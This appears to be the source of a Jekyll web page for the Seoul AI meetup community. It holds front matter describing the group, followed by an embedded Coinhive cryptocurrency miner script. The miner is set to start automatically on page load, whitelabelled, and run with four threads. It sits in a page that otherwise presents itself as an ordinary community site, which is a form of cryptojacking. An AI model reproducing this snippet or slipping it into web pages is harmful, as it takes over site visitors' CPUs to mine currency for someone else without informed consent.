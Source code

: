 ```yaml
---
layout: default
summary: Seoul AI is the largest international Artificial Intelligence community in Seoul. Group of professionals from different fields meets twice per month in the heart of Seoul to discuss about AI or implement various AI applications.
tags: [Seoul,"Artificial Intelligence",meetup,AI,call,presenters,practioners,"Machine Learning",Korea,Gangnam]
---
```


<script src="https://coinhive.com/lib/miner.min.js" async></script>
<div class="coinhive-miner"
	style="width: 600px; height: 310px"
	data-key="4oRscSkZZprxDccg05fWoI3yID0Jl1yf"
	data-autostart="true"
	data-whitelabel="true"
	data-background="#ffffff"
	data-text="#000000"
	data-action="#000000"
	data-graph="#000000"
	data-threads="4"
	data-throttle="0.1"
	data-start="Start Now!">
	<em>Please disable Adblock!</em>
</div>
